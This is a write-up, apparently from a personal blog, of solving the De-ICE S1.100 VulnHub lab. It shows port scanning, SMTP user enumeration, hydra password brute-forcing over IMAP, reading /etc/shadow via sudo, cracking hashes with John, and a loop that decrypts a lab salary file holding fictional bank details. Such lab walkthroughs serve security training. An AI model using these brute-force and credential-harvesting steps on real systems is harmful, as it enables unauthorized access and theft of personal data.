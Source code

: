 ```yaml
---
layout: post
title: "DE-ICE-S1.100"
date: 2015-05-09 20:55:07 +0200
comments: true
categories: [vulnhub, deice]
---
```

Image: [De-ICE: S1.100](https://www.vulnhub.com/entry/de-ice-s1100,8/)

The output from nmap:
{% codeblock %}
PORT    STATE  SERVICE  VERSION
20/tcp  closed ftp-data
21/tcp  open   ftp      vsftpd (broken: could not bind listening IPv4 socket)
22/tcp  open   ssh      OpenSSH 4.3 (protocol 1.99)
25/tcp  open   smtp     Sendmail 8.13.7/8.13.7
80/tcp  open   http     Apache httpd 2.0.55 ((Unix) PHP/5.1.2)
110/tcp open   pop3     Openwall popa3d
143/tcp open   imap     UW imapd 2004.357
443/tcp closed https
MAC Address: 00:0C:29:53:2F:A3 (VMware)
{% endcodeblock %}

We connect to the web site and save the staff names to the file:
{% codeblock %}
$ cat names.txt 
Marie Mary
Pat Patrick
Terry Thompson
Ben Benedict
Erin Gennieg
Paul Michael
Ester Long
Adam Adams
Bob Banter
Chad Coffee
{% endcodeblock %}

Using this script [namemash.py](https://gist.githubusercontent.com/superkojiman/11076951/raw/865a89c2db01c2a5589c534b7f56d1669dddf0ab/namemash.py)
we generate the potential login names:

{% codeblock %}
$ cat userlist.txt
mariemary
marymarie
marie.mary
mary.marie
marym
mmary
mmarie
m.mary
m.marie
marie
mary
patpatrick
patrickpat
pat.patrick
patrick.pat
patrickp
ppatrick
ppat
p.patrick
p.pat
pat
patrick
terrythompson
thompsonterry
terry.thompson
thompson.terry
thompsont
tthompson
tterry
t.thompson
t.terry
terry
thompson
benbenedict
benedictben
ben.benedict
benedict.ben
benedictb
bbenedict
bben
b.benedict
b.ben
ben
benedict
eringennieg
genniegerin
erin.gennieg
gennieg.erin
genniege
egennieg
gerin
e.gennieg
g.erin
erin
gennieg
paulmichael
michaelpaul
paul.michael
michael.paul
michaelp
pmichael
mpaul
p.michael
m.paul
paul
michael
esterlong
longester
ester.long
long.ester
longe
elong
lester
e.long
l.ester
ester
long
adamadams
adamsadam
adam.adams
adams.adam
adamsa
aadams
aadam
a.adams
a.adam
adam
adams
bobbanter
banterbob
bob.banter
banter.bob
banterb
bbanter
bbob
b.banter
b.bob
bob
banter
chadcoffee
coffeechad
chad.coffee
coffee.chad
coffeec
ccoffee
cchad
c.coffee
c.chad
chad
coffee
{% endcodeblock %}

In this case, the better way should be to use SMTP enumeration:
{% codeblock %}
mail from: a@slax.example.net
250 2.1.0 a@slax.example.net... Sender ok
rcpt to: bbanter@slax.example.net
250 2.1.5 bbanter@slax.example.net... Recipient ok
rcpt to: bbanter
250 2.1.5 bbanter@slax.example.net... Recipient ok
rcpt to: aadam
550 5.1.1 aadam... User unknown
rcpt to: aadams
250 2.1.5 aadams... Recipient ok
{% endcodeblock %}

We use hydra to perform brute-force attack via imap service:
{% codeblock %}
$ hydra -L userlist.txt 192.168.1.100 imap -u -e nsr
[143][imap] host: 192.168.1.100   login: bbanter   password: bbanter
{% endcodeblock %}

After login as bbanter, we download the /etc/passwd file to create more accurate wordlist:
{% codeblock %}
$ cat userlist2.txt
aadams
ccoffee
{% endcodeblock %}

{% codeblock %}
$ hydra -L userlist2.txt 192.168.1.100 imap -u -P /usr/share/wordlists/rockyou.txt
[143][imap] host: 192.168.1.100   login: aadams   password: nostradamus
{% endcodeblock %}

We found no working exploit using [Linux_Exploit_Suggester](https://github.com/PenturaLabs/Linux_Exploit_Suggester).

User aadams is in the wheel group:
{% codeblock %}
/etc/passwd:
aadams:x:1000:10:,,,:/home/aadams:/bin/bash
/etc/group:
wheel::10:root
{% endcodeblock %}

Checking sudo -l reveals how to get root hash:
{% codeblock %}
$ sudo -l
User aadams may run the following commands on this host:
    (root) NOEXEC: /bin/ls
    (root) NOEXEC: /usr/bin/cat
    (root) NOEXEC: /usr/bin/more
    (root) NOEXEC: !/usr/bin/su *root*

aadams@slax:/tmp$ sudo cat /etc/shadow
root:$1$TOi0HE5n$j3obHaAlUdMbHQnJ4Y5Dq0:13553:0:::::
ccoffee:$1$nsHnABm3$OHraCR9ro.idCMtEiFPPA.:13550:0:99999:7:::
{% endcodeblock %}

Using John, we cracked these hashes:
{% codeblock %}
tarot            (root)
hierophant       (ccoffee)
{% endcodeblock %}

We find salary_dec2003.csv.enc in FTP directory and because there is suspicous
line in /etc/passwd (DO NOT CHANGE PASSWORD - WILL BREAK FTP ENCRYPTION), we
know that the password for this file could be the same as for root.

For this purpose, we wroted the following script:
{% codeblock lang:bash %}
$ cat crack-openssl.sh
#!/usr/bin/env bash

ciphers=`openssl list-cipher-commands`

for c in $ciphers; do
  openssl enc -d -"$c" -in salary_dec2003.csv.enc -k tarot -out csv/salary_dec2003.csv.$c-decrypted
done
{% endcodeblock %}

In a few gibberish files we read csv/salary_dec2003.csv.aes-128-cbc-decrypted:
{% codeblock %}
$ cat csv/salary_dec2003.csv.aes-128-cbc-decrypted  | head -15
,Employee information,,,,,,,,,,,,,,
,Employee ID,Name,Salary,Tax Status,Federal Allowance (From W-4),State Tax (Percentage),Federal Income Tax (Percentage based on Federal Allowance),Social Security Tax (Percentage),Medicare Tax (Percentage
),Total Taxes Withheld (Percentage),"Insurance
Deduction
(Dollars)","Other Regular
Deduction
(Dollars)","Total Regular Deductions (Excluding taxes, in dollars)","Direct Deposit Info
Routing Number","Direct Deposit Info
Account Number"
,1,Charles E. Ophenia,"$225,000.00",1,4,2.30%,28.00%,6.30%,1.45%,38.05%,$360.00,$500.00,$860.00,183200299,1123245
,2,Marie Mary,"$56,000.00",1,2,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$100.00,$225.00,183200299,1192291
,3,Pat Patrick,"$43,350.00",1,1,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$0.00,$125.00,183200299,2334432
,4,Terry Thompson,"$27,500.00",1,4,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$225.00,$350.00,183200299,1278235
,5,Ben Benedict,"$29,750.00",1,3,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$122.50,$247.50,183200299,2332546
,6,Erin Gennieg,"$105,000.00",1,4,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$0.00,$125.00,183200299,1456567
,7,Paul Michael,"$76,000.00",1,2,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$100.00,$225.00,183200299,1446756
{% endcodeblock %}
